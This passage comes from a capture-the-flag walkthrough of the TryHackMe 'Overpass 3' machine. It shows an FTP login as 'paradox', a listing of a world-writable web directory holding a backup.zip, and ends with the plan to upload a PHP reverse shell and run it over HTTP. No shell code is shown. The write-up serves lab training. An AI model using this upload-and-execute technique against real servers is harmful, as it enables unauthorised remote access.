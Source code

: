 ```
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3/backup]
└─$                                                                                                                                                  130 ⨯
```
So let's try ftp.

#### FTP
The first user `paradox` logs into the web directory (login with the other users were unsuccessful):
```
└─$ ftp $IP            
Connected to 10.10.252.11.
220 (vsFTPd 3.0.3)
Name (10.10.252.11:kali): paradox
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al 
229 Entering Extended Passive Mode (|||45746|)
150 Here comes the directory listing.
drwxrwxrwx    3 48       48             94 Nov 17  2020 .
drwxrwxrwx    3 48       48             94 Nov 17  2020 ..
drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
226 Directory send OK.
ftp> cd backups
250 Directory successfully changed.
ftp> ls -al 
229 Entering Extended Passive Mode (|||18764|)
150 Here comes the directory listing.
drwxr-xr-x    2 48       48             24 Nov 08  2020 .
drwxrwxrwx    3 48       48             94 Nov 17  2020 ..
-rw-r--r--    1 48       48          13353 Nov 08  2020 backup.zip
226 Directory send OK.
ftp> 
ftp> ^D
221 Goodbye.
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3/backup]
└─$ 
```
If we look carefully, we notice that we have write permissions to the directory, and so we can upload any files. With the nikto scan, we also find out, that the server runs php.

With that information, we can prepare a php reverse shell, upload it to the server via ftp and execute it over http.
